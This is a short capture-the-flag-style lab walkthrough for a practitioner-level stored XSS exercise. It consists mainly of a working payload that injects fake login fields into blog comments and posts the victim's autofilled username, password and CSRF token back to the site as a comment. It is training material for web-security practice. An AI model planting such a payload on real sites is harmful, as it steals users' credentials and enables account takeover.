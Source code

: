 Title: Exploiting cross-site scripting to capture passwords
Level: PRACTITIONER
Desc: This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.

# Walkthrough:

```

<input type="text" name="username">
<input type="password" name="password" onchange="hax()">

<script>
function hax(){
  var token = document.getElementsByName('csrf')[0].value;
  var username = document.getElementsByName('username')[0].value;
  var password = document.getElementsByName('password')[0].value;

  var data = new FormData();
  data.append('csrf', token);
  data.append('postId', 4);
  data.append('comment', `${username}:${password}`);
  data.append('name', 'victim');
  data.append('email', 'teset@test.sss');
  data.append('website', 'http://www.zen.sls');

  fetch('/post/comment', {
  method: 'POST',
  mode: 'no-cors',
  body: data
});
}
</script>
```
